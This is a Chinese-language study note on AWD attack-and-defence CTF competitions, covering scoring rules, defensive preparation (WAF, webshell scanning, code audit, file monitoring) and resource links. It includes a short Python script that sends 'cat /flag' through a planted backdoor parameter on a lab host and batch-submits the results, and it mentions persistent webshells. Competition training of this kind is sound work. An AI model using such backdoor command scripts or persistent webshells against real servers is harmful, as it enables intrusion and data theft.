

## 思维导图




## 何为AWD

比赛中每个队伍维护多台服务器，服务器中存在多个漏洞，利用漏洞攻击其他队伍可以
进行得分，修复漏洞可以避免被其他队伍攻击失分。

- 一般分配Web服务器，服务器(多数为Linux) 某处存在flag (一般在根目录下)
- 可能会提供一台流量分析虚拟机，可以下载流量文件进行数据分析;
- flag在主办方的设定下每隔一定时间刷新-轮
- 各队一般都有自己的初始分数
- flag一旦被其他队伍拿走，该队扣除一定积分
- 扣除的积分由获取fag的队伍均分
- 协方会对每个队伍的服务进行check,服务宕机扣除本轮fag分数,扣除的分值由
- 服务check正常的队伍均分
- 一般每个队伍会给一个低权限用户，非root权限

具体规则以具体比赛规则为准，但一般大同小异。

## AWD 常见比赛规则说明：

Attack With Defence，简而言之就是你既是一个 hacker，又是一个 manager。
比赛形式：一般就是一个 ssh 对应一个 web 服务，然后 flag 五分钟一轮，各队一般都有自己的初始
分数，flag 被拿会被拿走 flag 的队伍均分，主办方会对每个队伍的服务进行 check，check 不过就扣
分，扣除的分值由服务 check 正常的队伍均分。
其中一半比赛以 WEB 居多，可能会涉及内网安全，攻击和防御大部分为前期培训内容。

## 前期准备：
1. 队伍分工明确
2. 脚本工具环境完整
3. 漏洞 POC/EXP 库完整
4. 安全防御 WAF 及批量脚本完整
## 必备操作：

1. 备份网站文件
2. 修改数据库默认密码
3. 修改网页登陆端一切弱密码
4. 查看是否留有后门账户
5. 关闭不必要端口，如远程登陆端口
6. 使用命令匹配一句话特性
7. 关注是否运行了“特殊”进程
8. 权限高可以设置防火墙或者禁止他人修改本目录

# 演示案例：

## 防守—部署WAF—实现第一时间拦截部分攻击—升级后续版

最快第一时间操作，此类技术核心准备为各个环境的 WAF 部署(源码语言，比赛规则)

涉及资源：

- https://github.com/zhl2008/awd-platform
- https://github.com/yemoli/prepare-for-awd
- https://github.com/leohearts/awd-watchbird
- https://github.com/DasSecurity-HatLab/AoiAWD
- AoiAWD-针对CTF AWD的原创轻量级防御系统 https://mp.weixin.qq.com/s/kwzJnoi2FwFhwbdxetd45A
- AWD平台搭建 https://www.cnblogs.com/Triangle-security/p/11332223.html
- AWD红蓝对抗资料工具 https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ提取码:xiao
- 线下AWD平台搭建以及一些相关问题解决 https://www.cnblogs.com/pureqh/p/10869327.html

## 防守—扫描后门—实现第一时间利用预留后门攻击—升级脚本版

最快第一时间操作，此类技术核心在于扫描源码中**预留或隐藏后门**

当网站服务器被入侵时，我们需要一款Webshell检测工具，来帮助我们发现webshell，进一步排查系统可能存在的安全漏洞。

- [10款常见的Webshell检测工具](https://www.cnblogs.com/xiaozi/p/12679777.html)
- 目的：使用杀毒软件查杀出shell脚本，及时做好排查防护策略。

## 防守—代码审计—实现第一时间找出源码中安全漏洞—升级漏洞库版

简要分析可能存在的安全问题，配合流量监控及**代码审计**后续操作(框架及非框架，源码语言，漏洞库等)进行漏洞判定

- Seay源代码审计系统——（只支持PHP语言，单一，速度快，审计结果相对Fortify较少）
- Fortify——（支持语言丰富，速度较慢，审计结果更多、更详细）

## 防守—文件监控—实现第一时间监控当前目录文件操作—升级流量监控

最快第一时间操作，在防守攻击时，实时监控当前目录文件上传删除等操作，有效防止恶意删除、上传后门等，后续可配合流量操作行为监控找出更多漏洞


## 攻击—批量 Flag—实现第一时间利用脚本批量 Flag 得分—升级模版不死马

攻击第一时间操作，写好批量获取 Flag 脚本后，预定 Flag 更新时间，实现自动获取及提交，升级后门写入及不死马等操作，实现权限维持实时获取得分。

- 假设分析脚本，发现一个后门，针对这个后门，可以批量写脚本。


批量获取并提交flag

```python
import requests


def get_flag():
    data={
        'shell':'cat /flag'
    }
    for i in range(8801,8804):
        url='http://192.168.76.156:' + str(i) + '/footer.php'
        result=requests.post(url,data=data).content.decode('utf-8')
        print(result)
        with open(r'flag.txt','a+') as f:
            f .write(result+'\n')
            f.close()

def tijiao_flag():
    for flag in open('flag.txt'):
        flag=flag.replace('\n','')
        url='http://192.168.76.156:8080/flag_file.php?token=team1&flag='+flag
        requests.get(url)

if __name__ == '__main__':
    get_flag()
    tijiao_flag()

```


# 涉及资源：
[https://github.com/zhl2008/awd-platform](https://github.com/zhl2008/awd-platform)
[https://github.com/yemoli/prepare-for-awd](https://github.com/yemoli/prepare-for-awd)
[https://github.com/leohearts/awd-watchbird](https://github.com/leohearts/awd-watchbird)
[https://github.com/DasSecurity-HatLab/AoiAWD](https://github.com/DasSecurity-HatLab/AoiAWD)
[https://www.cnblogs.com/Triangle-security/p/11332223.html](https://www.cnblogs.com/Triangle-security/p/11332223.html)
[AWD红蓝对抗资料工具 https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ提取码:xiao](https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ 提取码：xiao)

### 参考

- https://www.cnblogs.com/zhengna/p/15775396.html